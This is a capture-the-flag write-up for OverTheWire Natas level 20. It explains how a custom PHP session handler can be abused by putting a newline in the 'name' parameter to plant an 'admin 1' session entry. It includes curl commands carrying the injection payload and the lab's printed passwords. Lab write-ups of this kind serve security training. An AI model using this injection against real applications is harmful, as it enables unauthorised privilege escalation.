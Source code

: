 ```yaml
---
category: natas
title: Natas20 - Session Management Part 3
---
```


website: http://natas20.natas.labs.overthewire.org/ (password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF)

In this challenge, the `print_credentials()` reads as below:

```php
function print_credentials() {
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas21\n";
        print "Password: <censored></pre>";
    } else {
        print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
```

As what we can see, in order to get the password for the next level, the session must contain a variable named "admin" and its value must be "1".

According to the source code, to inject <small>$_SESSION[\"admin\"] = 1</small>, one way is to take advantage of the function `myread()` and `mywrite()`:

```php
function myread($sid) {
    ...
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
        $parts = explode(" ", $line, 2);
        if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    ...
}
 
function mywrite($sid, $data) {
    ...
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    ...
}
```

What `myread()` does is to read a file line by line to restore all key/value for a session, and what `mywrite()` does is to write key/value of a session into a file. Here the question is, what if the value contains a "\n" (i.e., a newline character)? Because there is no input validation, the function `mywrite()` will write the "\n" into the file as well. For example, if the (key, value) pair is <small>(\"name\", \"admin\nadmin 1\")</small>, then two lines are written into the file: The 1st line is "name admin" and the 2nd line is "admin 1". Later on when `myread()` is invoked during `session_start()`, it will read two lines and restore two session variables, which are:
* $_SESSION[\'name\'] = \'admin\'
* $_SESSION[\'admin\'] = \'1\'

Notice that the 2nd variable will hit the condition and prints out the password.

Here is how I cracked the password. 

```shell
#!/bin/sh

curl -isu natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF  "http://natas20.natas.labs.overthewire.org/index.php?name=admin%0Aadmin%201&debug" --cookie "PHPSESSID=hello"

sleep 1

curl -isu natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF  "http://natas20.natas.labs.overthewire.org/index.php?name=admin%0Aadmin%201&debug" --cookie "PHPSESSID=hello"
```

I sent two requests to the web application. In both requests, I composed a special value for the parameter "name", which is <small>admin%0Aadmin%201</small>. '%0A' and '%20' are the URL encode for the new line character and the space character.
Also, I used the same session ID in both requests. That's because according to the source code, the name of the file which stores the `$_SESSION` variables is named after a session ID. Running the above script, the first request will lead the application to create a file which contains two lines, which looks like below:

```plain
name admin
admin 1
```

Once the second request is received, it will lead the application to read the file and restore the `$_SESSION` variables. The result shows that the password for natas21 is <small>IFekPyrQXftziDEsUr3x21sYuahypdgJ</small>.


<strong>REFERENCE</strong>

Here is a reference from the PHP manual about what happens when `session_start()` is invoked:

- <i>When session_start() is called or when a session auto starts, PHP will call the open and read session save handlers. These will either be a built-in save handler provided by default or by PHP extensions (such as SQLite or Memcached); or can be custom handler as defined by session_set_save_handler(). The read callback will retrieve any existing session data (stored in a special serialized format) and will be unserialized and used to automatically populate the $_SESSION superglobal when the read callback returns the saved session data back to PHP session handling.</i>

For more details, please refer to <a href="https://www.php.net/manual/en/function.session-start.php">this link</a>.


